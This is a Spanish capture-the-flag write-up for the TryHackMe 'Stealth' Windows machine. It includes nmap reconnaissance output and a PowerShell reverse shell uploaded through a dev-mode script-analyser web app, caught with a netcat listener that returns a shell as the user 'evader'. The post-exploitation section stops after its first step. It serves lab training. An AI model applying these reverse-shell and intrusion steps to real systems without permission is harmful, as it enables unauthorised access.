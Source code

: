 ## TryHackMe  <> Stealth

![image](https://github.com/Esevka/CTF/assets/139042999/4d6aa794-1d1e-4022-8edb-ffc2fe8cad19)

Enlace Maquina: https://tryhackme.com/room/stealth

Enunciado :
  - Conseguir Flags(user y root)
---

## Escaneo de puertos (NMAP).

-Segun el ttl obtenito (127) despues de lanzar un paquete ICMP a la maquina victima podriamos decir que es una maquina ---> Windows.

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/try_ctf/stealth]
    └─# ping -c1 10.10.236.141                            
    PING 10.10.236.141 (10.10.236.141) 56(84) bytes of data.
    64 bytes from 10.10.236.141: icmp_seq=1 ttl=127 time=558 ms
    
    --- 10.10.236.141 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 557.717/557.717/557.717/0.000 ms
    
-Buscamos puertos abiertos en en la maquina victima.

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/try_ctf/stealth]
    └─# nmap -p- --open -sS --min-rate 5000 -n -Pn 10.10.236.141 -vvv -oG open_ports
    
    PORT      STATE SERVICE       REASON
    139/tcp   open  netbios-ssn   syn-ack ttl 127
    445/tcp   open  microsoft-ds  syn-ack ttl 127
    3389/tcp  open  ms-wbt-server syn-ack ttl 127
    5985/tcp  open  wsman         syn-ack ttl 127
    8000/tcp  open  http-alt      syn-ack ttl 127
    8080/tcp  open  http-proxy    syn-ack ttl 127
    8443/tcp  open  https-alt     syn-ack ttl 127
    47001/tcp open  winrm         syn-ack ttl 127
    49664/tcp open  unknown       syn-ack ttl 127
    49665/tcp open  unknown       syn-ack ttl 127
    49666/tcp open  unknown       syn-ack ttl 127
    49667/tcp open  unknown       syn-ack ttl 127
    49668/tcp open  unknown       syn-ack ttl 127
    49669/tcp open  unknown       syn-ack ttl 127
    49672/tcp open  unknown       syn-ack ttl 127

-Extraemos los puertos de la captura anterior para lanzarles unos scripts basicos de reconocimiento.

Utilizamos un Script en bash simple pero de gran ayuda. Script--> https://github.com/Esevka/CTF/tree/main/Bash

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/try_ctf/stealth]
    └─# list_port open_ports 
    
    [+]Puertos Disponibles --> (Copiados en el Clipboard)
    
    139,445,3389,5985,8000,8080,8443,47001,49664,49665,49666,49667,49668,49669,49672

  -Lanzamos scripts basicos de reconocimiento sobre los puertos abiertos.

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/try_ctf/stealth]
    └─# nmap -p 139,445,3389,5985,8000,8080,8443,47001,49664,49665,49666,49667,49668,49669,49672 -sC 10.10.236.141 -vvv -oN info_ports

    PORT      STATE SERVICE       REASON          VERSION
    139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
    
    445/tcp   open  microsoft-ds? syn-ack ttl 127
    
    3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
    |_ssl-date: 2023-12-15T17:47:08+00:00; +1s from scanner time.
    | rdp-ntlm-info: 
    |   Target_Name: HOSTEVASION
    |   NetBIOS_Domain_Name: HOSTEVASION
    |   NetBIOS_Computer_Name: HOSTEVASION
    |   DNS_Domain_Name: HostEvasion
    |   DNS_Computer_Name: HostEvasion
    |   Product_Version: 10.0.17763
    |_  System_Time: 2023-12-15T17:46:28+00:00
    | ssl-cert: Subject: commonName=HostEvasion
    | Issuer: commonName=HostEvasion
    | Public Key type: rsa
    | Public Key bits: 2048
    | Signature Algorithm: sha256WithRSAEncryption
    | Not valid before: 2023-07-28T19:06:15
    | Not valid after:  2024-01-27T19:06:15
    | MD5:   110c:1c21:e230:b7c7:41f5:4b6a:bf2b:9e6a
    | SHA-1: 34ad:3702:1a0a:2054:88a9:ea0c:820b:da64:b1bd:fb56
    | -----BEGIN CERTIFICATE-----
    | MIIC2jCCAcKgAwIBAgIQMIOcafxeh79B5cu+rs/taDANBgkqhkiG9w0BAQsFADAW[...]
    |_-----END CERTIFICATE-----
    
    5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-title: Not Found
    |_http-server-header: Microsoft-HTTPAPI/2.0
    
    8000/tcp  open  http          syn-ack ttl 127 PHP cli server 5.5 or later
    |_http-title: 404 Not Found
    | http-methods: 
    |_  Supported Methods: GET HEAD POST OPTIONS
    
    8080/tcp  open  http          syn-ack ttl 127 Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
    |_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
    |_http-title: PowerShell Script Analyser
    |_http-open-proxy: Proxy might be redirecting requests
    | http-methods: 
    |_  Supported Methods: GET HEAD POST OPTIONS
    
    8443/tcp  open  ssl/http      syn-ack ttl 127 Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
    | tls-alpn: 
    |_  http/1.1
    |_ssl-date: TLS randomness does not represent time
    | http-methods: 
    |_  Supported Methods: GET HEAD POST OPTIONS
    |_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
    |_http-title: PowerShell Script Analyser
    | ssl-cert: Subject: commonName=localhost
    | Issuer: commonName=localhost
    | Public Key type: rsa
    | Public Key bits: 1024
    | Signature Algorithm: sha1WithRSAEncryption
    | Not valid before: 2009-11-10T23:48:47
    | Not valid after:  2019-11-08T23:48:47
    | MD5:   a0a4:4cc9:9e84:b26f:9e63:9f9e:d229:dee0
    | SHA-1: b023:8c54:7a90:5bfa:119c:4e8b:acca:eacf:3649:1ff6
    | -----BEGIN CERTIFICATE-----
    | MIIBnzCCAQgCCQC1x1LJh4G1AzANBgkqhkiG9w0BAQUFADAUMRIwEAYDVQQDEwls[...]
    |_-----END CERTIFICATE-----
    
    47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    
    49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    49672/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC

## Analizamos la informacion obtenida sobre los puertos(Explotacion de la aplicacion obtenemos shell)

Despues de analizar toda, empezaremos por el puerto 8080

--Puerto 8080(http)

  ![image](https://github.com/Esevka/CTF/assets/139042999/9b6a2630-2e5c-4def-92fb-880264e301ef)

  Al encontrarse la aplicacion en dev-mode, pensamos en subir una reverse shell en powershell y bingo obtenemos shell en la maquina victima.

  1) Creamos la reverse shell --> rs.ps1

      ![image](https://github.com/Esevka/CTF/assets/139042999/68c212b0-034d-40d8-96dd-248cc3f19942)

  2) Nos ponemos en escucha  y la subimos a la maquina victima a traves de la aplicacion web.

      ![image](https://github.com/Esevka/CTF/assets/139042999/ffc118d8-fcff-4c0a-b1f6-d4cbf9487450)

          ┌──(root㉿kali)-[/home/…/ctf/try_ctf/stealth/contenido]
          └─# rlwrap nc -lnvp 1988
          listening on [any] 1988 ...
          connect to [10.9.92.151] from (UNKNOWN) [10.10.170.164] 49833
          whoami
          hostevasion\evader

## Postexplotacion(obtenemos flags y elevamos privilegios)

- Subimos a la maquina victima netcat64.exe para obtener una shell mas interactiva y trabajar comodamente.















